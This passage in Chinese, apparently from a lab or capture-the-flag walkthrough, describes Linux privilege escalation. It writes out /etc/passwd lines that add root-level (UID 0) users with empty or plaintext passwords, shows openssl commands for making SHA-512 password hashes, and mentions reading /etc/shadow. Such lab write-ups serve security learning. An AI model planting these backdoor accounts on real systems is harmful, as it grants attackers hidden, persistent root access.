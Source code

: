 那么这里就不使用x，把密码直接写入在`/etc/passwd`，并仿造`root`的形式，添加一个新用户



```shell
dijia::0:0:dijia:/root:/bin/bash	#尝试构造空密码的具有root权限的用户

gogo:123456:0:0:gogo:/root:/bin/bash	#尝试构造明文密码具有root权限的用户
```

那么尝试进行加密吧，可以使用`openssl`工具进行生成，或者去在线网站进行加密都行

```shell
openssl passwd -6 -salt 123 123456

#这里若是不知道含义，可以具体使用openssl -h 查看帮助，不过最好是在kali中，因为靶机内查看有问题
#openssl passwd是 OpenSSL 工具提供的一个用于生成加密密码（哈希值）的命令
#-6 是指采用sha512算法
#-salt 123 是指使用加盐操作，盐值为123
#123456 为指定加密的密码
#扩展
#-1 是指使用MD5算法
#-5 是指采用SHA-256算法
```

这里可以直接加密自然是可以，不过为了严谨，我这里把之前读取的`/etc/shadow`文件中的密码，进行一个分析，借助网站`www.dcode.fr`，发现解出算法以及盐值

![](./pic-9/34.jpg)

![35](./pic-9/35.jpg)
